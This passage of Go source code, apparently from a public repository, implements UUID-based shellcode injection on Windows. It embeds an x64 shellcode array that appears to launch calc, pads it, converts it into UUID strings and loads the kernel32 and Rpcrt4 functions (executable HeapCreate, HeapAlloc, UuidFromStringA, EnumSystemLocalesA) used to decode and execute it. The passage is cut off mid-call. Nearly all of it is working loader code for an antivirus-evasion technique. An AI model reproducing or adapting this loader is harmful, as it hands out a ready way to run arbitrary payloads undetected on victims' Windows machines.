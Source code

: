 ```go
  "golang.org/x/sys/windows"
  "github.com/google/uuid"
)

func main(){
  var shellcode = []byte{0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6a, 0x60, 0x5a, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x48, 0x83, 0xec, 0x28, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x3, 0x57, 0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x1, 0xfe, 0x8b, 0x54, 0x1f, 0x24, 0xf, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x2, 0xad, 0x81, 0x3c, 0x7, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x1, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x1, 0xf7, 0x99, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x30, 0x5d, 0x5f, 0x5e, 0x5b, 0x5a, 0x59, 0x58, 0xc3}

  // Check shellcode length to add some zero
  if 16 - len(shellcode) %16 < 16 {
    pad := bytes.Repeat([]byte{byte(0x90)}, 16-len(shellcode)%16)
    shellcode = append(shellcode, pad...)
  }

  // Convert shellcode to UUIDs
  fmt.Println("Converting shellcode to UUIDs...")
  var uuids []string
  for i := 0; i < len(shellcode); i += 16 {
    var uuidBytes []byte

    buf := make([]byte, 4)
    binary.LittleEndian.PutUint32(buf, binary.BigEndian.Uint32(shellcode[i:i+4]))
    uuidBytes = append(uuidBytes, buf...)

    buf = make([]byte, 2)
    binary.LittleEndian.PutUint16(buf, binary.BigEndian.Uint16(shellcode[i+4:i+6]))
    uuidBytes = append(uuidBytes, buf...)

    buf = make([]byte, 2)
    binary.LittleEndian.PutUint16(buf, binary.BigEndian.Uint16(shellcode[i+6:i+8]))
    uuidBytes = append(uuidBytes, buf...)

    uuidBytes = append(uuidBytes, shellcode[i+8:i+16]...)

    // Use official Google package to convert bytes to uuid
    u, err := uuid.FromBytes(uuidBytes)
    if err != nil {
      log.Fatal(fmt.Errorf("there was an error converting bytes into a UUID:\n%s", err))
    }

    uuids = append(uuids, u.String())
  }

  fmt.Println("UUIDs amount:", len(uuids))

  fmt.Println("Loading DLLs...")
  kernel32 := windows.NewLazyDLL("kernel32")
  HeapCreate := kernel32.NewProc("HeapCreate")
  HeapAlloc := kernel32.NewProc("HeapAlloc")
  EnumSystemLocalesA := kernel32.NewProc("EnumSystemLocalesA")

  rpcrt4 := windows.NewLazySystemDLL("Rpcrt4.dll")
  UuidFromStringA := rpcrt4.NewProc("UuidFromStringA")

  // Create heap
  fmt.Println("Calling HeapCreate...")
  heapAddr, _, err := HeapCreate.Call(
    0x00040000,
```